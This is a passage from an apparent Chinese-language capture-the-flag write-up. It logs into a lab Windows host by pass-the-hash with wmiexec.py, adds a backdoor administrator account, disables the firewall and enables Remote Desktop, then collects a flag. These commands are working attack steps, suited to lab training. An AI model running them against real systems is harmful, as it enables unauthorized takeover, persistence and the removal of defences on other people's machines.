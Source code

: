 接着利用`wmiexec.py`获取到的`Shell`添加一个用户到管理员组，然后关闭防火墙，开启`3389`远程登录。

```bash
python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27 ack123.com/Administrator@10.10.10.133

net user admin QWEasd123!@# /add
net localgroup administrators admin /add

netsh advfirewall set allprofiles state off
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

![](./images/26.png)

在`C:\Users\Administrator\Desktop`目录下获取到`flag5`。
